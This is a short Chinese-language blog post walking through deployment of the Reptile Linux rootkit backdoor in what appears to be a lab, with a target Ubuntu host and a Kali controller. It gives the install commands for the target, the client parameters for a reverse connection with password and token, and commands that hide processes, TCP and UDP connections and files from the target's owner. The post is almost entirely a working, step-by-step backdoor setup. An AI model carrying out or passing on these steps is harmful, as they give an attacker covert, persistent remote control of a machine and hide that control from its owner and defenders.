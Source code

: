 ﻿---
layout: post
title: Reptile Linux rootkit后门
date: 2019-09-19
categories: blog
tags: [后门，linux，rookit]
description: Reptile Linux rootkit后门
---

###### 安装
###### 目标机器`ubuntu 192.168.70.140`
- 执行以下命令在目标机器安装reptile
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./setup.sh install
```
![](https://upload-images.jianshu.io/upload_images/15634342-1348015d40185b65.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
###### 控制端机器`kali 192.168.70.139`
- 执行以下命令在控制端机器安装reptile
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
cd bin
./client
```
- 执行以下命令在控制端设置参数,注意`SRCHOST`和`RHOST`都是目标机器
```
set lhost 192.168.70.139
set lport 80
set srchost 192.168.70.140
set srcport 666
set RHOST 192.168.70.140
set RPORT 666
set pass s3cr3t
set token hax0r
set prot tcp
run
```
![](https://upload-images.jianshu.io/upload_images/15634342-c26415273643b53f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/15634342-162aff6a7ef5d04e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- 成功连接到目标机器的45046，在目标机器上搜索不到该端口的连接，已被隐藏
![](https://upload-images.jianshu.io/upload_images/15634342-ce2824e07557d0a1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
- 其他命令
```
隐藏进程: /reptile/reptile_cmd hide <pid> 
显示进程: /reptile/reptile_cmd show <pid>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide 
显示udp: /reptile/reptile_cmd udp <IP> <port> show
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide 
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。
```
`参考链接:`[http://www.carlstar.club/2019/04/09/rep/](http://www.carlstar.club/2019/04/09/rep/)
















